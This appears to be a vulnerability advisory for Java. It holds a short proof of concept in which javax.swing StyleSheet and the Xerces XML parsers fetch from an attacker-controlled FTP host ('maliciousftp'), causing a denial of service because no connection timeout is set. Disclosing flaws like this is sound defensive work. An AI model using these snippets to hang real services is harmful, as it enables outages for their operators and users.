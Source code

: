 ## javax.swing.text.html.StyleSheet Proof of Concept

```
import java.net.MalformedURLException;
import java.net.URL;

import javax.swing.text.html.StyleSheet;

public class ImportStyla {

 public static void main(String[] args) {
  StyleSheet cs = new StyleSheet();
  URL url;
  try {
   url = new URL("ftp://maliciousftp:2121/test");
   cs.importStyleSheet(url);
  } catch (MalformedURLException e) {
   e.printStackTrace();
  }
 }
}
```

## java.net.URLConnection – Concurrency-Related Denial of Service
A Thread Concurrency Denial of Service condition exists when java.net.URLConnection is used to fetch a file from an FTP server without specifying a Connection Timeout value.

The vulnerable functions are:

javax.xml.parsers.SAXParser
javax.xml.parsers.SAXParserFactory
org.dom4j.Document
org.dom4j.io.SAXReader
javax.xml.parsers.DocumentBuilder
javax.xml.parsers.DocumentBuilderFactory
The Root Cause Issue in Apache Xerces is the com.sun.org.apache.xerces.internal.impl.XMLEntityManager.class



In this case, XMLEntityManager.class does not explicitly set Connection Timeout for the connect object, letting Java to set a default value of -1, leading to a Denial of Service condition, as explained below.

Example of code using Apache Xerces library to fetch an XML file from an FTP server:

```
[snip]
    private void parseXmlFile() {
     //get the factory
     DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
     try {
      //Using factory get an instance of document builder
      DocumentBuilder db = dbf.newDocumentBuilder();
      //parse using builder to get DOM representation of the XML file
      dom = db.parse("ftp://maliciousftpserver/test.xml"); & lt; - FTP URL controlled by the attacker
     } catch (ParserConfigurationException pce) {
      pce.printStackTrace();
     } catch (SAXException se) {
      se.printStackTrace();
     } catch (IOException ioe) {
      ioe.printStackTrace();
     }
    }
```